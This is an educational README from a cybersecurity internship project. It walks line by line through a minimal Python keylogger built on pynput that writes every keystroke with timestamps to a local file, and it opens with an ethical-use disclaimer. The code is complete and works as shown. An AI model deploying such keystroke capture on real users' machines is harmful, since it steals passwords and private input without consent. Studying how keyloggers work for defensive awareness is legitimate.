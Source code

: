 # Project 3: 
# Keylogger Implementaion

# DISCLAIMER:
  This project is created strictly for educational and ethical purposes as part of a cybersecurity internship. Do not use this tool on any system or device without explicit written permission. Unauthorized keylogging is illegal and unethical.

# Project Description

 This project demonstrates how a basic Keylogger works using Python. A keylogger captures every keystroke made by a user and logs it to a file. The project is built using the `pynput` library to monitor key events and `logging` to record the captured data.

 This tol is intended to:
  -> Show how keyloggers work for educational awareness 
  -> Demonstrate Python keyboard listener capabilities
  -> Practice ethical hacking and red team skills in a safe lab environment

# Features
 -> Logs all keyboard input (alphanumeric + special keys)
 -> Saves keystrokes with timestamps to a `.txt` lof file
 -> Automatically stops when the `Esc` key is pressed 
 -> Simple and minimal code base using `pynput` and `logging`

# Code Explanation:

 print("WARNING: This keylogger is for EDUCATIONAL use only.")
 print("Do not use it without explicit permission.")

-> Print a warining to clearly state the legal and ethical boundaries of using this project.
-> This lets users known tha its only meant for learning, and should not be used without proper authorizaion.

from pynput.keyboard import Listener, Key

 -> TThis listens for every key press and release.
 -> Key: helps to identify special keys like Esc, Shift, Enter.

import logging
-> This allows us to save each keystroke into a file. 

# Log file setup
log_file = "Key_log.txt"
 
 -> Define the file `Key_log.txt` to store all captured keystorkes.

logging.basicConfig(filename=log_file, level=logging.INFO, format='%(asctime)s: %(message)s')

 -> Then, configure the logger to include timestamps and messages, so we know exactly when each key was pressed.

 def on_press(key):
    try:
        logging.info(f"Key pressed: {key.char}")
    except AttributeError:
        logging.info(f"Special key pressed: {key}")

 -> This fuction runs when any key is pressed.
 -> If it's a regular key like `a` or `1` it logs the character using `key.char`

 -> If it's a special key like `shift` or `ctrl`, which don't have char, it goes to the except block and logs the full key name instead.

 def on_release(key):
    if key == Key.esc:
        print("ESC pressed. Exiting....")
        return False

 -> This function runs when any key is released, the program  stops, this gives us a clean way to exit the keylogger when we're done testing.

 with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()

 -> Finally, the listener using a `with` block.
 -> It continuously runs and lisens for key press and release events.
                                                                                                              
 -> The `listener.join()` keeps it active until we press `Esc`, which triggers the stop command. 

 # What I learned:
 -> Learned how to capture keyboard events in real time using the pynput library.
 -> Applied Python’s logging module to record keystrokes with timestamps.
 -> Handled both character and special key inputs using try/except.
 -> Implemented a clean stop mechanism by detecting the Esc key.
 -> Reinforced the importance of ethical usage and permission when testing security tools.

# Author:
 Mobin Mathew
 Tamizhan Skills RISE Cybersecurity & Ethical Hacking Intern
